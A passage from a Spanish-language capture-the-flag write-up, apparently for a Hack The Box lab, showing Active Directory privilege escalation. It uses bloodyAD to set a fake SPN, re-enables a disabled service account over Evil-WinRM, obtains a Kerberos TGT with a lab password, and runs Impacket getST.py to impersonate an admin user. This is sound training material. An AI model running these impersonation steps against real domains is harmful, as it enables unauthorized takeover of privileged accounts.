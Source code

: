 
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k set object "SVC_SQL" servicePrincipalName  -v "cifs/fake"
[+] SVC_SQL's servicePrincipalName has been updated.

ahora desde dentro de la sesion de c_neri activaremos la cuenta, que en mi caso se ha desactivado

*Evil-WinRM* PS C:\Users\C.Neri\Documents> Get-ADUser -Identity svc_sql -Properties Enabled, LockedOut


DistinguishedName : CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
Enabled           : False
GivenName         :
LockedOut         : False
Name              : svc_sql
ObjectClass       : user
ObjectGUID        : 3fb41501-6742-4258-bfbe-602c3a8aa543
SamAccountName    : svc_sql
SID               : S-1-5-21-4024337825-2033394866-2055507597-1134
Surname           :
UserPrincipalName :



*Evil-WinRM* PS C:\Users\C.Neri\Documents> Enable-ADAccount -Identity svc_sql
*Evil-WinRM* PS C:\Users\C.Neri\Documents> Get-ADUser -Identity svc_sql -Properties ServicePrincipalName


DistinguishedName    : CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
Enabled              : True
GivenName            :
Name                 : svc_sql
ObjectClass          : user
ObjectGUID           : 3fb41501-6742-4258-bfbe-602c3a8aa543
SamAccountName       : svc_sql
ServicePrincipalName : {cifs/fake}
SID                  : S-1-5-21-4024337825-2033394866-2055507597-1134
Surname              :
UserPrincipalName    :


python3 getTGT.py vintage.htb/svc_sql:Zer0the0ne -dc-ip dc01.vintage.htb

Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in svc_sql.ccache

conseguimos el TGT

export KRB5CCNAME=svc_sql.ccache

Suplantar al usuario L.BIANCHI_ADM para solicitar cifs/dc01.vintage.htbun ticket de servicio para el servicio. Después de obtener exitosamente el ticket, podrás utilizarlo para acceder al servicio.


python3 getST.py -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.10.11.45 -k 'vintage.htb/svc_sql:Zer0the0ne'
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 
